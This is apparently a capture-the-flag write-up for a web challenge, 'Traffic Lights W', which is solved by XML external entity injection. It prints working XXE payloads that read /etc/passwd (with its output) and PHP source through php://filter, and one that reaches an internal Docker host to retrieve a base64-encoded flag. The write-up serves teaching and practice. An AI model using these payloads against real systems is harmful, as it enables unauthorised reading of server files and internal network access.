

# Traffic Lights W [web]

- Score: 100
- Solves: 162

## Solution

We can do XXE attack.

The following post compromises a file on the server if the file path is known:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE content [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
 <content>&xxe;</content>
</root>
```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```

And, by using [PHP built-in wrapper](https://www.php.net/manual/en/wrappers.php), we can see server's source code as follows:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE content [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php" >]>
<root>
 <content>&xxe;</content>
</root>
```

-> `index.php`

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE content [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=firmware_upload.php" >]>
<root>
 <content>&xxe;</content>
</root>
```

-> `firmware_upload.php`

However, I could not locate the flag from the source code.

I saw the web page again...



`Docker Hostname` and `Port` keywords are suspicious.

I tried to access `http://traffic-light-1004:80` from the web server:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE content [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://traffic-light-1004:80" >]>
<root>
 <content>&xxe;</content>
</root>
```

```
SWYgeW91J3JlIHJlYWRpbmcgdGhpcy4uLiBZb3UgZm91bmQgb3V0IHRoYXQgdGhlIHRyYWZmaWMgbGlnaHRzIGFyZSBmYWtlLgpEb24ndCB0ZWxsIGFueW9uZS4gSGVyZSdzIGEgZmxhZyB0byBtYWtlIHlvdSBoYXBweTogZmxhZ3tzaGhfaW1fbWluaW5nX2JpdGNvaW59Cg==
```

I executed:

```fish
$ echo SWYgeW91J3JlIHJlYWRpbmcgdGhpcy4uLiBZb3UgZm91bmQgb3V0IHRoYXQgdGhlIHRyYWZmaWMgbGlnaHRzIGFyZSBmYWtlLgpEb24ndCB0ZWxsIGFueW9uZS4gSGVyZSdzIGEgZmxhZyB0byBtYWtlIHlvdSBoYXBweTogZmxhZ3tzaGhfaW1fbWluaW5nX2JpdGNvaW59Cg== | base64 -d -
If you're reading this... You found out that the traffic lights are fake.
Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin}
```

## Flag

`flag{shh_im_mining_bitcoin}`
